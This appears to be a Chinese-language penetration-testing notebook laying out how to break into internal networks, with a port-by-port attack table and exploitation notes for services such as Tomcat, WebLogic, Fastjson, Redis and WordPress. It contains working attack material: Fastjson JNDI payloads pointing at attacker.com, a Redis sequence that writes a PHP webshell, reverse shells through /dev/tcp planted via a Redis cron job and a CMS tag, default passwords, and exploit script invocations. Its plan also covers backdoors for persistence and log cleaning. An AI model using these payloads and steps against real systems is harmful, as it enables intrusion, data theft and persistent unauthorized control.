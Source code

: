 常规思路
========================================

内网安全检查
----------------------------------------

攻击思路
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 攻击外网服务器，获取外网服务器的权限，接着利用入侵成功的外网服务器作为跳板，攻击内网其他服务器，最后获得敏感数据，并将数据传递到攻击者，看情况安装长期后门，实现长期控制和获得敏感数据的方式；
- 攻击办公网的系统、办公网电脑、办公网无线等方式，一般是采用社工，实现控制办公电脑，再用获得的办公网数据，可能是内网的各种登录账号和密码，再获取办公网或者生产网的有用数据。

敏感资料/数据/信息
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 高管/系统管理员/财务/人事/业务人员的个人电脑
- 文件服务器/共享服务器
- 邮件服务器
- OA服务器
- 数据库服务器

攻击过程
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 信息收集
- 漏洞验证/漏洞攻击
- 后渗透
- 日志清理

信息收集
----------------------------------------
- 主机发现
- 端口扫描
	 **常见端口渗透**
	
	+-------------+-----------------------+--------------------------------------------------+
	| 端口号      | 端口说明              | 攻击技巧                                         |
	+=============+=======================+==================================================+
	| 21/22/69    | ftp/tftp：文件传输协议| 爆破、嗅探、溢出、后门                           |
	+-------------+-----------------------+--------------------------------------------------+
	| 22          | ssh：远程连接         | 爆破、OpenSSH、28个退格                          |
	+-------------+-----------------------+--------------------------------------------------+
	| 23          | telnet：远程连接      | 爆破、嗅探                                       |
	+-------------+-----------------------+--------------------------------------------------+
	| 25          | smtp：邮件服务        | 邮件伪造                                         |
	+-------------+-----------------------+--------------------------------------------------+
	| 53          | DNS：域名系统         | DNS区域传输、DNS劫持、DNS缓存投毒、DNS欺骗、深度 |
	|             |                       | 利用（利用DNS隧道技术刺透防火墙）                |
	+-------------+-----------------------+--------------------------------------------------+
	| 67/68       | dhcp                  | 劫持、欺骗                                       |
	+-------------+-----------------------+--------------------------------------------------+
	| 110         | pop3                  | 爆破                                             |
	+-------------+-----------------------+--------------------------------------------------+
	| 139         | samba                 | 爆破、未授权访问、远程代码执行                   |
	+-------------+-----------------------+--------------------------------------------------+
	| 143         | imap                  | 爆破                                             |
	+-------------+-----------------------+--------------------------------------------------+
	| 161         | snmp                  | 爆破                                             |
	+-------------+-----------------------+--------------------------------------------------+
	| 389         | ldap                  | 注入攻击、未授权访问                             |
	+-------------+-----------------------+--------------------------------------------------+
	| 512/513/514 | linux r               | 直接使用rlogin                                   |
	+-------------+-----------------------+--------------------------------------------------+
	| 873         | rsync                 | 未授权访问                                       |
	+-------------+-----------------------+--------------------------------------------------+
	| 1080        | socket                | 爆破（进行内网渗透）                             |
	+-------------+-----------------------+--------------------------------------------------+
	| 1352        | lotus                 | 爆破（弱口令）、信息泄露（源代码）               |
	+-------------+-----------------------+--------------------------------------------------+
	| 1433        | mssql                 | 爆破（使用系统用户登陆）、注入攻击               |
	+-------------+-----------------------+--------------------------------------------------+
	| 1521        | oracle                | 爆破（TNS）、注入攻击                            |
	+-------------+-----------------------+--------------------------------------------------+
	| 2049        | nfs                   | 配置不当                                         |
	+-------------+-----------------------+--------------------------------------------------+
	| 2181        | zookeeper             | 未授权访问                                       |
	+-------------+-----------------------+--------------------------------------------------+
	| 3306        | mysql                 | 爆破、拒绝服务、注入                             |
	+-------------+-----------------------+--------------------------------------------------+
	| 3389        | rdp                   | 爆破、shift后门                                  |
	+-------------+-----------------------+--------------------------------------------------+
	| 4848        | glassflsh             | 爆破（控制台弱口令）、认证绕过                   |
	+-------------+-----------------------+--------------------------------------------------+
	| 5000        | sybase/DB2            | 爆破、注入                                       |
	+-------------+-----------------------+--------------------------------------------------+
	| 5432        | postgresql            | 缓冲区溢出、注入攻击、爆破（弱口令）             |
	+-------------+-----------------------+--------------------------------------------------+
	| 5632        | pcanywhere            | 拒绝服务、代码执行                               |
	+-------------+-----------------------+--------------------------------------------------+
	| 5900        | vnc                   | 爆破（弱口令）、认证绕过                         |
	+-------------+-----------------------+--------------------------------------------------+
	| 6379        | redis                 | 未授权访问、爆破（弱口令）                       |
	+-------------+-----------------------+--------------------------------------------------+
	| 7001        | weblogic              | java反序列化、控制台弱口令、控制台部署webshell   |
	+-------------+-----------------------+--------------------------------------------------+
	| 80/443/8080 | web                   | 常见web攻击、控制台爆破、对应服务器版本漏洞      |
	+-------------+-----------------------+--------------------------------------------------+
	| 8069        | zabbix                | 远程命令执行                                     |
	+-------------+-----------------------+--------------------------------------------------+
	| 9090        | websphere控制台       | 爆破（控制台弱口令）、java反序列                 |
	+-------------+-----------------------+--------------------------------------------------+
	| 9200/9300   | elasticsearch         | 远程代码执行                                     |
	+-------------+-----------------------+--------------------------------------------------+
	| 11211       | memcache/memcached    | 未授权访问                                       |
	+-------------+-----------------------+--------------------------------------------------+
	| 27017       | mongodb               | 爆破、未授权访问                                 |
	+-------------+-----------------------+--------------------------------------------------+

- 漏洞扫描
- 识别内网环境
	+ 办公网
	+ 生产网

漏洞验证/漏洞攻击
----------------------------------------

Tomcat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口号：8080
+ 攻击方法
	- 默认口令、弱口令，爆破，tomcat5 默认有两个角色：tomcat和role1。其中账号both、tomcat、role1的默认密码都是tomcat。弱口令一般存在5以下的版本中。
	- 在管理后台部署 war 后门文件
	- 远程代码执行漏洞
	- msf暴力破解
		::
		
			msfconsole
			search tomcat
			use auxiliary/scanner/http/tomcat_mgr_login 
			show options
			set rhosts 192.168.48.128
			run
			参考：https://blog.csdn.net/weixin_45006817/article/details/114936847
	- 防火墙绕过
		+ 包体前填充大量数据
		+ 示例：`tomcat.war <..//_static//tomcat.war>`_
+ 常见漏洞
	- CVE-2016-8735
	- CVE-2017-12615

Jboss
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口：8080
+ 攻击方法
	- 弱口令，爆破
	- 管理后台部署 war 后门
	- 反序列化
	- 远程代码执行
+ 常见漏洞
	- CVE-2015-7501
	- CVE-2017-7504
	- CVE-2017-12149

WebLogic
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口：7001，7002
+ 攻击方法
	+ 弱口令、爆破，弱密码一般为weblogic/Oracle@123 or weblogic
	+ 管理后台部署 war 后门
	+ SSRF
	+ 反序列化漏洞
	+ weblogic_uac
+ 常见漏洞
	- CVE-2019-2725
	- CVE-2019-2729
	- CVE-2018-3191
	- CVE-2018-2628
	- CVE-2018-2893
	- CVE-2018-2894
	- CVE-2017-3506
	- CVE-2017-10271
	- CVE-2017-3248
	- CVE-2016-0638
	- CVE-2016-3510
	- CVE-2015-4852
	- CVE-2014-4210
+ 利用工具
	- 地址：``https://github.com/21superman/weblogic_exploit``
	- Weblogic 反序列化 RCE 图形化利用工具。

Shiro
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 利用工具
	- 地址：``https://github.com/j1anFen/shiro_attack``
	- Shiro反序列化漏洞综合利用,包含（回显执行命令/注入内存马）.

WebSphere
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口：默认端口：908*；第一个应用就是9080，第二个就是9081；控制台9090
+ 攻击方法
	+ 控制台登录爆破
	+ 很多内网 websphere 的控制台存在弱口令 / 默认口令，可以使用 admin/admin 以及 webshpere/webshpere 这种口令登录。 通过该口令登录控制台后，可以部署 war 包，从而获取到 WEBSHELL 。
	+ 反序列化
	+ 任意文件泄露

Struts2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 可利用漏洞
	+ S2-048
	+ S2-052
	+ S2-053
	+ S2-057
	+ S2-046 CVE-2017-5638 Struts 2.3.5-2.3.31,Struts 2.5-2.5.10
	+ S2-045 CVE-2017-5638 Struts 2.3.5-2.3.31,Struts 2.5-2.5.10
	+ S2-037 CVE-2016-4438 Struts 2.3.20-2.3.28.1
	+ S2-032 CVE-2016-3081 Struts 2.3.18-2.3.28
	+ S2-020 CVE-2014-0094 Struts 2.0.0-2.3.16
	+ S2-019 CVE-2013-4316 Struts 2.0.0-2.3.15.1
	+ S2-016 CVE-2013-2251 Struts 2.0.0-2.3.15
	+ S2-013 CVE-2013-1966 Struts 2.0.0-2.3.1
	+ S2-009 CVE-2011-3923 Struts 2.0.0-2.3.1.1
	+ S2-005 CVE-2010-1870 Struts 2.0.0-2.1.8.1
+ 扫描工具
	+ https://github.com/x51/STS2G/releases
	+ ``ST2SG --mode scan --url http://xxx.com/index.action``
+ 利用工具
	+ 地址：``https://github.com/shack2/Struts2VulsTools``

Spring 框架
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 可利用漏洞
	+ CVE-2010-1622
	+ CVE-2018-1274
	+ CVE-2018-1270
	+ CVE-2018-1273
	+ 反序列化
	+ 目录穿越
+ 利用工具
	- SpringBootExploit
		+ 地址：``https://github.com/0x727/SpringBootExploit``
		+ 一款针对 SpringBootEnv 页面进行快速漏洞利用的工具。
	- SBSCAN
		+ 地址：``https://github.com/sule01u/SBSCAN.git``

swagger
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 未授权访问
	::
	
		/api
		/api-docs
		/api-docs/swagger.json
		/api.html
		/api/api-docs
		/api/apidocs
		/api/doc
		/api/swagger
		/api/swagger-ui
		/api/swagger-ui.html
		/api/swagger-ui.html/
		/api/swagger-ui.json
		/api/swagger.json
		/api/swagger/
		/api/swagger/ui
		/api/swagger/ui/
		/api/swaggerui
		/api/swaggerui/
		/api/v1/
		/api/v1/api-docs
		/api/v1/apidocs
		/api/v1/swagger
		/api/v1/swagger-ui
		/api/v1/swagger-ui.html
		/api/v1/swagger-ui.json
		/api/v1/swagger.json
		/api/v1/swagger/
		/api/v2
		/api/v2/api-docs
		/api/v2/apidocs
		/api/v2/swagger
		/api/v2/swagger-ui
		/api/v2/swagger-ui.html
		/api/v2/swagger-ui.json
		/api/v2/swagger.json
		/api/v2/swagger/
		/api/v3
		/apidocs
		/apidocs/swagger.json
		/doc.html
		/docs/
		/druid/index.html
		/graphql
		/libs/swaggerui
		/libs/swaggerui/
		/spring-security-oauth-resource/swagger-ui.html
		/spring-security-rest/api/swagger-ui.html
		/sw/swagger-ui.html
		/swagger
		/swagger-resources
		/swagger-resources/configuration/security
		/swagger-resources/configuration/security/
		/swagger-resources/configuration/ui
		/swagger-resources/configuration/ui/
		/swagger-ui
		/swagger-ui.html
		/swagger-ui.html#/api-memory-controller
		/swagger-ui.html/
		/swagger-ui.json
		/swagger-ui/swagger.json
		/swagger.json
		/swagger.yml
		/swagger/
		/swagger/index.html
		/swagger/static/index.html
		/swagger/swagger-ui.html
		/swagger/ui/
		/Swagger/ui/index
		/swagger/ui/index
		/swagger/v1/swagger.json
		/swagger/v2/swagger.json
		/template/swagger-ui.html
		/user/swagger-ui.html
		/user/swagger-ui.html/
		/v1.x/swagger-ui.html
		/v1/api-docs
		/v1/swagger.json
		/v2/api-docs
		/v3/api-docs
+ 扫描
	+ dirsearch
	+ api泄露，直接测试，看是否需要授权
	+ ``https://github.com/jayus0821/swagger-hack``

Actuator信息泄露
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ Spring Boot Actuator 模块提供了健康检查，审计，指标收集，HTTP 跟踪等，是帮助我们监控和管理Spring Boot 应用的模块。
+ https://github.com/LandGrey/SpringBootVulExploit
+ heapdump获取*密码
	- JDK/bin/jvisualvm.exe工具
	- OQL执行： ``select s from java.util.LinkedHashMap$Entry s where /spring.datasource.password/.test(s.key)``
	- ``https://github.com/wyzxxz/heapdump_tool``
	- ``https://github.com/whwlsfb/JDumpSpider``
+ jolokia接口利用

Fastjson
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 探测目标是否使用Fastjson
	- HTTP请求特征
		::
		
			修改请求头：Content-Type: application/json
			观察响应是否包含Fastjson特有错误（如"syntax error"后出现com.alibaba.fastjson.JSON）
			故意发送畸形JSON数据（如{"@type":"x）→ 若返回错误包含autoType is not support等字样可确认
	- 响应特征
		+ 响应头包含X-Powered-By: Fastjson
		+ 错误页面泄露版本号（如at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(...)）
+ 利用检测
	- AutoType绕过检测
		::
		
			{
			  "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
			  "dataSourceName":"ldap://attacker.com/exp",
			  "autoCommit":true
			}
			观察结果：
			若目标向attacker.com发起LDAP请求 → 存在AutoType绕过漏洞
			使用DNSLog平台（如ceye.io）确认外联行为
	- SafeMode绕过检测
		::
		
			{
			  "@type":"org.apache.shiro.jndi.JndiObjectFactory",
			  "resourceName":"ldap://attacker.com/exp"
			}
			适用于≥1.2.68版本且未启用SafeMode
			依赖目标环境是否存在兼容的Gadget链（如Shiro、Tomcat依赖）
	- 不出网检测（内部利用）
		::
		
			{
			  "@type":"com.alibaba.fastjson.JSONObject",
			  "x":{
				"@type":"java.lang.Exception",
				"@type":"org.springframework.core.NestedIOException"
			  }
			}
			观察响应延迟或堆栈信息变化 → 判断是否存在可利用的Gadget链
+ 利用工具
	- Fastjson_rce_tool
		+ 地址：``https://github.com/wyzxxz/fastjson_rce_tool``
		+ Fastjson命令执行自动化利用工具， remote code execute，JNDI服务利用工具 RMI/LDAP，LDAP反序列方式部分回显.

IIS：Windows 的 WWW 服务器
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ https://masterxsec.github.io/2017/06/07/IIS-write-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/
+ http://www.freebuf.com/articles/4908.html
+ https://www.anquanke.com/post/id/85811
+ IIS，开启了 WebDAV，可以直接详服务器 PUT 文件
+ 短文件名枚举漏洞
+ 远程代码执行
+ 提权漏洞
+ 解析漏洞

Apache
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 解析漏洞
+ 目录遍历

Apache Dubbo
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CVE-2020-1948 反序列化漏洞利用
+ https://blog.csdn.net/weixin_46137328/article/details/107194560

Apache Flink
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 任意 Jar 包上传致 RCE 漏洞
+ https://zhuanlan.zhihu.com/p/328382373

Nginx
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ https://www.seebug.org/vuldb/ssvid-92538
+ 解析漏洞
+ 目录遍历
+ CVE-2016-1247：需要获取主机操作权限，攻击者可通过软链接任意文件来替换日志文件，从而实现提权以获取服务器的root权限

lighttpd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 目录遍历

宝塔
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通过一个交互界面就能完成服务器的维护工作，比如更新系统，添加网站，修改设置等等。可以搭建任何开源建站程序，包括主流的WordPress，帝国CMS,织梦程序等，也可以搭建Java开源的建站程序，例如OneBlog程序。

Gitlab
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- GitLab是一个利用 Ruby on Rails 开发的开源应用程序，实现一个自托管的项目仓库，可通过Web界面进行访问公开的或者私人项目。
- 可利用漏洞
	+ 任意文件读取漏洞
	+ 任意用户 token 泄露漏洞
	+ 命令执行漏洞
	
Jenkins
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Jenkins是一种跨平台的持续集成和交付的应用软件，它便于不断稳定地交付新的软件版本，并提高你的工作效率。这款开发运维工具还让开发人员更容易把项目的变化整合起来，并使用大量的测试和部署技术。
- 可利用漏洞：
	+ 远程代码执行漏洞
	+ 反序列化漏洞
	+ 未授权访问漏洞
	+ 登录入口爆破
- 常见漏洞
	+ CVE-2018-1999002

Puppet
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Puppet Enterprise专门管理基础设施即代码(IAC)，在这种类型的IT基础设施配置过程中，系统用代码而不是脚本流程来自动构建、管理和配置。由于它是代码，整个过程易于重复。Puppet有助于更容易控制版本、自动化测试和持续交付，可以更快速地响应问题或错误。
- 可利用漏洞，很少公开的POC
- 反序列化
- 远程命令执行

Ansible
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Ansible是一种配置和管理工具，面向客户端的软件部署和配置，支持Unix、Linux和Windows。它使 用JSON和YAML，而不是IAC，根本不需要节点代理就可以安装。它可以通过OpenStack在内部系统上使用，也可以在亚马逊EC2上使用。
- 可利用漏洞
	+ 远程代码执行
	
Nagios
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Nagios是一款开源的电脑系统和网络监视工具，能有效监控Windows、Linux和Unix的主机状态，交换机路由器等网络设置，打印机等。在系统或服务状态异常时发出邮件或短信报警第一时间通知网站运维人员，在状态恢复后发出正常的邮件或短信通知。
- 可利用漏洞
	+ 代码执行
	+ SQLi
	
Zabbix
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Zabbix 是一款强大的开源分布式监控系统, 能够将SNMP、JMX、Zabbix Agent提供的数据通过WEB GUI的方式进行展示。
- 可利用漏洞
	+ 远程代码执行
	+ SQLi
	+ shell 命令注入
	+ 认证绕过
	+ 默认账户与密码，默认口令 admin/zabbix，或者是guest/空
	
Cacit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Cacti是一套基于PHP,MySQL,SNMP及RRDTool开发的网络流量监测图形分析工具。
- 可利用漏洞
	+ 任意代码执行
	+ SQLi
	+ 登录爆破
	+ 默认密码admin/admin
	
Splunk
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Splunk Enterprise 可以从任何来源监控和分析机器数据，以提供操作智能，从而优化您的 IT、安全和业务绩效。Splunk Enterprise 具有直观的分析功能、机器学习、打包应用程序和开放式 API，是一个灵活的平台，可从重点用例扩展到企业范围的分析主干。
- 可利用漏洞
	+ 信息泄露
	+ 命令注入
	+ 服务端请求伪造

邮件系统
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一部分是使用腾讯企业邮箱、阿里企业邮箱的，很难有可利用的漏洞，另外一种是能独立部署的邮件系统，政企常用的邮箱应用：

- Coremail
- 亿邮
- 35互联
- TurboMail
- Exchange
- IBM Lotus

nacos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 阿里巴巴产品，微服务配置中心。
+ 漏洞
	- 未授权文件泄露
	- 未授权任意用户添加
	- ``https://github.com/alibaba/nacos/issues/4593``

wordpress
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 扫描插件和主题是否包含漏洞
+ 拿到wp网站登录用户名和密码
	- 可通过上传主题文件来getshell，首先先去官网下载一个主题压缩包，之后将反弹shell的php代码写入shell.php中，然后将其放入压缩包一起上传
	- shell目录：/wp-content/themes/[主题名]/[shell文件名]
	- 通过主题编辑修改php页面
+ xmlrpc.php
	- 查看支持的方案
	
	::
	
		POST /xmlrpc.php HTTP/1.1
		Host: 192.168.100.106
		User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
		Content-Type: text/xml;charset=UTF-8
		Content-Length: 128

		<?xml version="1.0" encoding="iso-8859-1"?><methodCall><methodName>system.listMethods</methodName><params></params></methodCall>

CMS Made Simple
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 数据库更改密码方法
	- 前提：登录数据库
	- ``update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name='sitemask'),''),'admin'))) where username = 'admin';``
+ 反弹shell
	- 前提：登录系统
	- Extensions/User Defined Tags
		::
			
			vps开启监听
			修改任何一个tag的code，点击apply，点击run
			echo system("bash -c 'bash -i >& /dev/tcp/192.168.100.108/4444 0>&1'");

tiki
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CVE-2020-15906
	- 利用条件：tiki<21.2
	- 免密码登录
		::
		
			https://www.exploit-db.com/exploits/48927
			python 48927.py 192.168.100.103
			打开burpsuite，开启拦截
			浏览器登录admin，输入密码
			bp去掉密码，forward
			
	- 命令执行
		::
		
			https://srcincite.io/pocs/cve-2021-26119.py.txt
			python cve-2021-26119.py 192.168.100.103 /tiki/ whoami

MySQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：3306
- 攻击方法
	+ 爆破：弱口令
	+ 身份认证漏洞：CVE-2012-2122
	+ 拒绝服务攻击
	+ Phpmyadmin万能密码绕过：用户名：‘localhost’@’@” 密码任意
	+ 提权
	
MSSQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：1433（Server 数据库服务）、1434（Monitor 数据库监控）
- 攻击方法：
	+ 爆破：弱口令/使用系统用户
	+ 注入
	
Oracle数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：1521（数据库端口）、1158（Oracle EMCTL端口）、8080（Oracle XDB数据库）、210（Oracle XDB FTP服务）
- 攻击方法：
	+ 爆破：弱口令
	+ 注入攻击
	+ 漏洞攻击

PostgreSQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：5432
- 攻击方法
	+ 爆破：弱口令：postgres postgres
	+ 缓冲区溢出：CVE-2014-2669
	
MongoDB数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：27017
- 攻击方法
	+ 爆破：弱口令
	+ 未授权访问；github有攻击代码；
	
Redis数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：6379
- 攻击方法
	+ 爆破：弱口令
	+ 未授权访问+配合ssh key提权
- 工具和命令
	+ 连接：``redis-cli -h 172.16.143.1 -p 6379``
	+ 查看所有的keys：``keys *``
	+ 写入文件
		::
		
			CONFIG GET dir
			CONFIG SET dir /usr/share/apache/htdocs/
			SET shell "<?php echo system($_REQUEST[cmd])?>"
			CONFIG SET dbfilename shell.php
			save
	+ 反弹shell
		::
		
			C2服务器监听：nc -lvnp 7999
			
			注意：先查看一下原来的dir，dbfilename是什么，进行备份。
			redis服务器执行以下redis命令：
			set xx "\n* * * * * bash -i >& /dev/tcp/192.168.32.144/7999 0>&1\n"
			config set dir /var/spool/cron/
			config set dbfilename root
			save

SysBase数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：服务端口5000；监听端口4100；备份端口：4200
- 攻击方法：
	+ 爆破：弱口令
	+ 命令注入
	
DB2 数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：5000
- 攻击方法
	+ 安全限制绕过：成功后可执行未授权操作（CVE-2015-1922）

minio
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 未授权信息泄露
+ https://github.com/Okaytc/minio_unauth_check

ActiveMQ
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：8161
- 攻击方法
	+ CVE-2016-3088：任意文件写入漏洞（Apache ActiveMQ 5.0.0 - 5.13.2）
		::
		
			https://jishuin.proginn.com/p/763bfbd74e97

MQTT
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ MQTT是一个基于客户端-服务器消息发布/订阅传输协议。
+ 相关漏洞
	- 授权和认证漏洞
	- 传输漏洞
	- 应用漏洞
+ mqtt-pwn
	::
	
		
		git clone https://github.com/akamai-threat-research/mqtt-pwn.git
		cd mqtt-pwn
		sudo docker-compose up --build --detach
		启动
		sudo docker-compose ps
		sudo docker-compose run cli


数据库【综合工具】
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ MDUT
	- MDUT 全称 Multiple Database Utilization Tools，是一款中文的数据库跨平台利用工具，集合了多种主流的数据库类型。基于前人 SQLTOOLS 的基础开发了这套程序(向 SQLTOOLS 致敬)，旨在将常见的数据库利用手段集合在一个程序中，打破各种数据库利用工具需要各种环境导致使用相当不便的隔阂。
	- 地址：``https://github.com/SafeGroceryStore/MDUT``

FTP 服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
FTP服务我分为两种情况，第一种是使用系统软件来配置，比如IIS中的FTP文件共享或Linux中的默认服务软件；第二种是通过第三方软件来配置，比如Serv-U还有一些网上写的简易ftp服务器等；

- 默认端口：20（数据端口）；21（控制端口）；69（tftp小型文件传输协议）
- 攻击方式
	+ 爆破：ftp的爆破工具有很多，这里我推荐owasp的Bruter 以及msf中ftp爆破模块；
	+ 匿名访问：用户名：anonymous 密码：为空或任意邮箱
	+ 嗅探：ftp使用明文传输技术（但是嗅探给予局域网并需要欺骗或监听网关）
	+ 后门 vsftp
	+ 远程溢出
	+ 跳转攻击

NFS 服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
NFS（Network File System）即网络文件系统，是FreeBSD支持的文件系统中的一种，它允许网络中的计算机之间通过TCP/IP网络共享资源。在NFS的应用中，本地NFS的客户端应用可以透明地读写位于远端NFS服务器上的文件，就像访问本地文件一样。如今NFS具备了防止被利用导出文件夹的功能，但遗留系统中的NFS服务配置不当，则仍可能遭到恶意攻击者的利用。

- 攻击方法
	+ 未授权访问

Samba服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Samba是linux和unix系统上实现SMB/CIFS协议的一个免费软件，由服务器和客户端程序构成。而SMB是局域网支持共享文件和打印机的一种通信协议，为局域网内不同计算机之间提供文件及打印机等资源的共享服务。

- 攻击方法
	+ 远程代码执行
	+ 弱口令
	+ 未授权访问（public）

SSH服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SSH是协议，通常使用OpenSSH软件实现协议应用。

- 端口：22
- 攻击方法
